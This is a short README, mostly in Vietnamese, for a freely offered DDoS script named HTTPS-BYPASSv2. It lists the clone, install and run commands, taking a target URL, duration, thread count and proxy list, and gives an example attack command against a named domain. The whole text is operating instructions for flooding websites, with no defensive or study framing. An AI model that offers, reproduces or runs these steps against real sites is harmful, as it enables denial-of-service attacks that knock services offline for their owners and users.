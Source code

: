 # HTTPS-BYPASSv2

SCRIPT DDOS FREE BY : DagTriZaker <3 

Không đem bán dưới mọi hình thức hãy là người dùng văn minh :V

Lệnh SETUP & RUN

git clone https://github.com/dangminhtri123/HTTPS-BYPASSv2

cd HTTPS-BYPASSv2

npm i fake-useragent

node HTTPS-BYPASSv2.js + URL/TARGET + TIME + THREADS + LIST PROXY :V

VÍ DỤ :

node HTTPS-BYPASSv2.j https://dagtriDepTrai.com 60 5 PROXYVIP.txt

